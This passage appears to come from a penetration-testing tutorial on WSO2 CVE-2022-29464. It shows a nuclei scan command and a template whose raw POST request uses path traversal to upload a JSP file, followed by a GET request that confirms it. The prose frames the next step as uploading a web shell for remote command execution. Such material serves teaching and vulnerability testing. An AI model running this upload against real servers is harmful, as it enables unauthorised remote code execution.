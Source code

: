 ```

The first step is to install the tool from the [public github page](https://github.com/projectdiscovery/nuclei).

After the installation is completed, as we said, we will choose to scan targets vulnerable to the CVE-2022-29464, so we will download the specific [```CVE-2022-29464.yaml```](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-29464.yaml) file.

```nuclei -t CVE-2022-29464.yaml -l targets.txt```

We can see that our target was found vulnerable by nuclei.

<img src="./assets/nuclei_run.png">

# CVEs exploitation

## CVE-2022-29464

We didn't talk at all about how this vulnerability works; the main idea is that the vulnerable WSO2 products allow unrestricted file upload which results in remote code execution.
This means that we can upload any file on the server.
The main approach to succeed the vulnerability inside the WSO2 is to do a POST request which tries to upload a [web shell file](https://www.upguard.com/blog/what-are-web-shell-attacks) in JSP format on the target system.

This web shell enables the target to be remotely accessed by the attacker, which can run commands on the system
After this POST request is made, another GET request to the web shell path endpoint to check if the vulnerability was successfully exploited.

```yaml
requests:
  - raw:
      - |
        POST /fileupload/toolsAny HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
        Content-Length: 348
        -----------------------------250033711231076532771336998311
        Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp";filename="test.jsp"
        Content-Type: application/octet-stream
        <% out.print("WSO2-RCE-CVE-2022-29464"); %>
        -----------------------------250033711231076532771336998311--
      - |
        GET /authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp HTTP/1.1
        Host: {{Hostname}}
```

We know that one of the vulnerable endpoint is the ```../../../../repository/deployment/server/webapps/authenticationendpoint/``` endpoint.
So, the main idea is to send a **POST** request containing a web shell, which let us to send commands on the system: to craft a request like the one inside the ```.yaml``` file we will use Burp Suite.
